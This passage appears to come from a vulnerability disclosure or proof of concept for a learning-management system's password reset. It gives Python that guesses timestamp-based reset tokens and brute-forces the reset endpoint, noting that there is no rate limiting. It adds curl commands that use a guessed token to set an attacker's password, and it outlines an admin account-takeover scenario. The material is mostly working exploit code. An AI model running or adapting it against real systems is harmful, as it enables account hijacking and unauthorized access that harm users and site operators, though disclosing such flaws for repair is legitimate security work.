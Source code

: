 ```python
# Generate timestamp range (around current time)
current_time = int(time.time())
timestamp_range = range(current_time - 3600, current_time + 3600)  # ±1 hour

# Generate possible tokens
possible_tokens = generate_possible_tokens(target_email, timestamp_range)

print(f"Generated {len(possible_tokens)} possible tokens")
```

### Brute Force Attack
```python
def attempt_password_reset(token):
    """Attempt to use password reset token"""
    url = "https://target.com/lms/login/reset_password"
    params = {"verification_code": token}
    
    response = requests.get(url, params=params)
    
    # Check if token is valid
    if "invalid" not in response.text.lower():
        return True
    return False

# Perform brute force attack
for token in possible_tokens:
    if attempt_password_reset(token):
        print(f"Valid token found: {token}")
        break
    
    # No rate limiting - can send requests rapidly
    time.sleep(0.1)  # Small delay to avoid overwhelming server
```

### Token Validation Bypass
```bash
# Direct token usage without proper validation
curl "https://target.com/lms/login/reset_password?verification_code=BRUTEFORCED_TOKEN"

# If successful, proceed to set new password
curl -X POST "https://target.com/lms/login/change_password" \
  -d "new_password=attacker_password&token=BRUTEFORCED_TOKEN"
```

## Attack Scenarios

### Scenario 1: Administrative Account Takeover
1. Enumerate admin email addresses
2. Brute force reset tokens for admin accounts
3. Reset admin passwords
4. Gain full system access
